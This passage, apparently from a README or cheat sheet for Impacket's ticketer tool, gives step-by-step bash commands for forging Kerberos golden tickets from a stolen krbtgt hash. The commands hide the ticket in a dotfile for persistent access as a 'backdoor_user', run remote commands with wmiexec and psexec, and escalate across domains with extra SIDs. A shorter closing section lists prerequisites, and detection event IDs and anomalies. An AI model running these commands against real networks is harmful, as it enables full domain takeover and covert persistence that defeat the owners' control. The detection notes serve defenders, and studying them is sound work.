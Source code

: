### Persistence with Golden Tickets
```bash
# Step 1: Create long-lasting golden ticket (10 years default)
python3 ticketer.py -nthash [krbtgt_hash] -domain-sid S-1-5-21-xxx -domain contoso.local backdoor_user

# Step 2: Store ticket in hidden location
cp backdoor_user.ccache /tmp/.hidden_ticket

# Step 3: Use for persistent access
export KRB5CCNAME=/tmp/.hidden_ticket
python3 wmiexec.py -k -no-pass contoso.local/backdoor_user@target.contoso.local
```

### Cross-Domain Attacks
```bash
# Step 1: Create golden ticket for parent domain
python3 ticketer.py -nthash [parent_krbtgt] -domain-sid S-1-5-21-parent -domain parent.local -extra-sid S-1-5-21-child-519 administrator

# Step 2: Use ticket to access child domain resources
export KRB5CCNAME=administrator.ccache
python3 psexec.py -k -no-pass child.local/administrator@childdc.child.local
```

## Prerequisites
- Python 3.x with Impacket installed
- Domain SID of the target domain
- One of the following:
  - krbtgt account NT hash (for golden tickets)
  - Service account NT hash or AES key (for silver tickets)
  - Valid domain credentials (for template-based tickets)
- Knowledge of target domain structure and services

## Detection Considerations
- **Event IDs**:
  - 4768: Kerberos TGT request (unusual patterns)
  - 4769: Kerberos service ticket request
  - 4624: Account logon (with unusual ticket characteristics)
  - 4672: Special privileges assigned (admin rights)
- **Ticket Indicators**:
  - Tickets with unusual lifetimes (10 years default)
  - Service tickets requested without prior TGT
  - Tickets with non-standard group memberships
  - Accounts logging in from unusual locations
- **PAC Anomalies**:
  - Modified group memberships
  - Unusual Extra SIDs
  - PAC validation failures
